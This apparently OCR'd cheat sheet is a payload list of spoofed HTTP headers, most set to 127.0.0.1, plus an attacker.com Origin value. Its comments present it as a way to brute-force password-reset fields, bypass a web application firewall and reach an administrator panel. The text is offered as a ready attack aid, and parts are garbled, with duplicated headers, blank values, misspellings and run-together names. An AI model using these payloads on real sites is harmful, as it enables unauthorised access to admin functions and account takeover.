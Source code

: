 	
    ### Brutal forcing on different input fields, especially password reset
    ### On request manupilation
	###T his would result to bypassing the web application firewall, and accessing administrator panel
    
    X-Forward-For: 127.0.0.1
	Base-Url: 127.0.0.1
	Http-Url: 127.0.0.1
	Proxy-Url: 127.0.0.1
	Redirect: 127.0.0.1
	Real-Ip: 127.0.0.1
	Referer: 127.0.0.1
	Referrer: 127.0.0.1
	Refferer: 127.0.0.1
	Uri: 127.0.0.1
	Url: 127.0.0.1
	X-Host: 127.0.0.1
	X-Http-Destinationurl: 127.0.0.1
	X-Http-Host-Override: 127.0.0.1
	X-Original-Remote-Addr: 127.0.0.1
	X-Original-Url: 127.0.0.1
	X-Proxy-Url: 127.0.0.1
	X-Rewrite-Url: 127.0.0.1
	X-Real-Ip: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	X-Custom-IP-Authorization:127.0.0.1
	X-Originating-IP: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Original-Url:
	X-Forwarded-Server:
	X-Host:
	X-Forwarded-Host:
	X-Rewrite-Url:
    X-Forwarded-Host
	X-Forwarded-Port
	X-Forwarded-Scheme
	Origin: 
	nullOrigin: [siteDomain].attacker.com
	X-Frame-Options: Allow
	X-Forwarded-For: 127.0.0.1
	X-Client-IP: 127.0.0.1
	Client-IP: 127.0.0.1
	Proxy-Host: 127.0.0.1
	Request-Uri: 127.0.0.1
	X-Forwarded: 127.0.0.1
	X-Forwarded-By: 127.0.0.1
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-For-Original: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Forwarded-Server: 127.0.0.1
	X-Forwarder-For: 127.0.0.1